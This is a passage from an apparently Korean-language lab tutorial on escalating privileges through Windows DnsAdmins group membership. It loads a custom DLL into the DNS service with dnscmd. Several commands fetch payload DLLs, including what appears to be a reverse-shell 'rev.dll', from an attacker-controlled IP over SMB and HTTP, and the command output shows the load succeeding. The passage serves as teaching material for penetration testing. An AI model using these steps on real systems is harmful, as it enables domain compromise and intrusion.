 ```bash
root@kali: smbserver.py s .
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.3\s\rev.dll
```



**Target에 파일 다운로드**

대상에 파일을 다운로드합니다.

&#x20; Target에 파일 다운로드

```
PS C:\htb> wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

먼저 권한이 없는 사용자로 `dnscmd` 유틸리티를 사용하여 사용자 지정 DLL을 로드하면 어떤 일이 발생하는지 살펴 보겠습니다.

**비권한 사용자로 DLL 로드하기**

&#x20; 비권한 사용자로 DLL 로드하기

```
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

예상대로 일반 사용자로 이 명령을 실행하려고 하면 성공하지 못합니다. 이 명령은 `DnsAdmins` 그룹의 구성원만 수행할 수 있습니다.

**DnsAdmin의 구성원으로 DLL 로드하기**

&#x20; DnsAdmin의 구성원으로 DLL 로드하기

```
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109  
```

**사용자 지정 DLL 로드**

`DnsAdmins` 그룹에서 그룹 멤버십을 확인한 후 명령을 다시 실행하여 사용자 지정 DLL을 로드할 수 있습니다.

&#x20; 사용자 지정 DLL 로드

```
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
